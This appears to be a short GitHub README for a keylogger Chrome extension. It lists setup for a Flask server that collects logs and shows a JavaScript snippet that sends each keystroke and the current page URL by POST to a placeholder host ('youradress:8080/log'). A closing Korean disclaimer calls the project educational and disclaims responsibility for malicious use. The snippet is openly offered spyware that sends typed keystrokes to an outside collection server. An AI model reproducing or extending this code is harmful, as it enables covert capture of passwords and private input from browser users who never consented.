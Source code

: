 #  Keylogger Chrome Extensions 

### Python flask server

`pip install flask`

`pip install flask_cors`

`pip insatll pyopenssl`

[SSL 자체 인증 받는법](https://blog.miguelgrinberg.com/post/running-your-flask-application-over-https)


### Main js code

```js
  ...
  xhr.open('POST', 'https://youradress:8080/log');
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  xhr.send(JSON.stringify({
    key: event.key,
    window: window.location.href,
    ...
 ```
 # warning
 
 1. **악의적으로 사용할시 책임지지 않습니다.**
 2.  교육 및 연구 목적으로 개발되었습니다.
 3.  네트워크를 동일한 네트워크를 사용해야 키 기록을 받을수 있습니다.
 4.  서버에 한번 접속해야 작동합니다.
 
 
 
 

